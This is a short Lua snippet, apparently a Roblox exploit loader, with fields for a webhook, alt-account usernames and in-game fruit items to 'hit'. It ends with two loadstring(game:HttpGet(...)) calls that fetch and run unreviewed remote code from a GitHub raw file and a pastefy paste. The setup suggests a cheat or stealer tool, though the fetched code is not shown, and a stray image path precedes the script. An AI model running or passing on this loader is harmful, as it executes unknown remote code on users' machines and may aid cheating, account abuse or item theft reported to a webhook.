 Webhook = "" -- << Your Webhook
Usernames = {"xxJHONxxjc", "syncskyue", "user3", "user4", "user5"} -- << Your usernames here, you can add as many alts as you want
FruitsToHit = {"Kitsune-Kitsune", "Leopard-Leopard", "Yeti-Yeti", "Gas-Gas"} -- << Fruits you want the script to detect

loadstring(game:HttpGet("https://raw.githubusercontent.com/SharkyScriptz/Joiner/refs/heads/main/V3"))()
    loadstring(game:HttpGet("https://pastefy.app/cAYRzpl1/raw"))()
